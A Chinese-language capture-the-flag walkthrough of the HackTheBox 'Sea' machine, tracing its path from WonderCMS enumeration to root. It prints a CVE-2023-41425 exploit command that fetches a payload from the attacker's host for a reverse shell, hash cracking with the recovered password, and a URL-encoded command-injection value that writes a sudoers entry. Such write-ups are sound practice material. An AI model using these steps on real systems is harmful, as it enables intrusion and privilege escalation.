

## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Easy |

## Basic Scan

### Port & Dir scan


发现一个contact.php。进去看看


尝试抓包看看。并没有什么回显。


尝试扫描一下其他的目录。


dirsearch没扫出来，用gobuster扫描出了一个bike目录。


重要的是这个license


这里暴露出了作者的名字

## Github resource


看来网站似乎是用的这个WonderCMS，其中的LICENSE是一模一样的。


当前CMS的版本的3.2.0


而经过查找漏洞，发现在WonderCMS的v3.2.0到v3.4.2之间存在漏洞


## CVE-2023-41425

POC地址：[insomnia-jacob/CVE-2023-41425: WonderCMS RCE CVE-2023-41425 (github.com)](https://github.com/insomnia-jacob/CVE-2023-41425)

检查exploit.py中的代码，发现访问的是这个路由


这个路由也是存在的。


那么就开始攻击。


```
┌──(root㉿kali)-[/home/kali/CVE-2023-41425]
└─# python exploit.py -u http://sea.htb/loginURL -i 10.10.16.16 -p 4444 -r http://10.10.16.16/main.zip
```

记得要在本地监听端口


回到contact.php，将exp执行后下面出现的link给传上去。


即可反弹shell，当前用户权限是普通的www-data，要想办法提权


kali上有linpeas的脚本，开一个httpserver然后靶机下载就行。记得在/tmp目录下才有写的权限。


成功执行，不过有点慢


发现有这几个CVE。


这个CVE-2021-3156看起来似乎能用。


不过这个几个漏洞都用不了。

## Brute Force

在/var/www/sea目录下面发现一个database.js


其中有一个密码字段，这里使用hashcat和rockyou字典来破解，字符串里的反斜杠一定要去掉，不然会报错。（以及虚拟机内存一定要开大一点，原来虚拟机2G的内存连hashcat都跑不起来，把他加大到8个G才成功）


得到密码是：**mychemicalromance**

查看/etc/passwd，发现有两个可疑的用户名


尝试登陆amay，成功进入！


## Privilege Escalation

不过amay并不在超级用户中


之前linpeas的输出中发现有8080和33815这两个端口，不过外部访问不了，只能自己在命令行里看。


有的网站需要用到身份认证，可以使用-u 或者--user 来进行传参，这里用amay的用户密码可以正常访问



```
ssh -v -N -L 8080:localhost:8080 amay@sea.htb
#v是详细模式，N是只转发端口，L是转发本地端口，这里仅做一个端口映射，便于本地访问
```


点击access.log之后出现日志，这里可以抓包修改文件名读取任意文件。


不仅如此，还可以执行命令。


尝试给amay加一点权限呢

```
/etc/passwd+&&+echo+"amay+ALL=(ALL)+NOPASSWD:+ALL"+>+/etc/sudoers.d/amay+#
#一定要url编码一下
/etc/passwd+%26%26+echo+"amay+ALL=(ALL)+NOPASSWD:+ALL"+>+/etc/sudoers.d/amay+#
```


成功拿到root权限

root的flag在root下的root.txt中，user的flag在/home/amay目录里。

## Summary

第一次接触国外的在线靶场，感觉这个hackthebox还不错，虽然是边看wp边做的，不过收获还是很多。
